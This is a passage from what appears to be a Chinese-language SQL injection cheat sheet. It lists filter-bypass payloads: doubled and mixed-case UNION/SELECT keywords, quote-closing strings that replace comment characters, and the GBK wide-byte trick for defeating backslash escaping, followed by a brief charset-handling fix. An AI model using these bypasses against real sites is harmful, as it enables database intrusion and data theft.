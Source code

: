    注：

   ```
   union(select 1,2,3)  错误!
   ```

### 14、关键字过滤

双写+大小写:

```
uNiON
SEleCT
Ununionion
SEselectlect
uNionUnion select Select
....
```

### 15、注释符过滤

#### 闭合号代替：

**ok:**

1. union select null'
2. and select 'a'='b
3. **") and '1'=("**、**")&&'1'=("1**
4. union select null and '1'=("1

**no:**

1. order by 1'
2. and select a'
3. union select null("
4. and select a=b'
5. and a=b'

### 16、转义符的绕过 - 宽字节编码

#### 原理：

```
用户输入 → WEB服务器(UTF-8) → 转义处理(GBK、其他多字节编码) → 数据库(GBK、其他多字节编码)
```

服务端语言编码环境默认是utf-8：

```
default_charset = "UTF-8"
```

数据库默认的编码是多字节编码，在转义处理的时候，服务端是按照utf-8的思维，插入一个\反斜杠，根本不知道会不会和前面恶意的前导字符合并。

#### 安全处理：

```
危险函数：
	mysql_query("SET NAMES gbk")
安全：
	mysql_set_charset('gbk')
```
